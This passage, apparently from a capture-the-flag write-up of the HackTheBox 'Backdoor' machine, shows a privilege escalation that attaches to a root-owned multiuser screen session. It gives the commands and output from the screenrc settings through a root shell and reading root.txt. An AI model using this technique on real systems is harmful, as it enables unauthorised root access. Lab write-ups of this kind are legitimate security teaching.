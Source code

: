     
    
    multiuser on                                                                    
    acladd user                                                                     
    shell -/bin/bash
    

It also notes in that post that `screen` must be SUID for this to work. It
isn’t on my Ubuntu 20.04 machine by default, but I understand that some
distros do ship with it that way (I remember seeing it as a SUID binary on a
certain 24-hour exam I took in 2018).

Because `screen` is configured exactly this way, I can exploit it as follows.

#### Screen Sessions

Running `screen -ls` will show sessions for the current user:

    
    
    user@Backdoor:/home/user$ screen -ls
    No Sockets found in /run/screen/S-user.
    

The process is running as root, so I’ll try to tell `screen` to look in
`S-root`. Adding `root/` to the end of the command works:

    
    
    user@Backdoor:/home/user$ screen -ls S-root/
    Cannot identify account 'S-root'.
    user@Backdoor:/home/user$ screen -ls root/
    There is a suitable screen on:
            947.root        (04/20/22 16:43:20)     (Multi, detached)
    1 Socket in /run/screen/S-root.
    

Interestingly, it does require the trailing `/`.

#### Connect to screen Session

I’ll connect to that session using `-x` and the `[user]/[session id]`:

    
    
    user@Backdoor:/home/user$ screen -x root/37344              
    Please set a terminal type.
    

It complains about a missing terminal type. That’s typically set in an
environment variable. I’ll add that to the front of the command, and on
running `TERM=screen screen -x root/37344`, I’m dropped into a `screen`
session as root:

    
    
    root@Backdoor:~#                                                                
    

It also works using the `[user]/[session name]`, so in this case, `TERM=screen
screen -x root/root`.

I can read `root.txt`:

    
    
    root@Backdoor:~# cat root.txt
    499d4ef0************************
    

[Parallelizing Bash and Python »](/2022/04/24/parallelizing-in-bash-and-
python.html)

[](/2022/04/23/htb-backdoor.html)

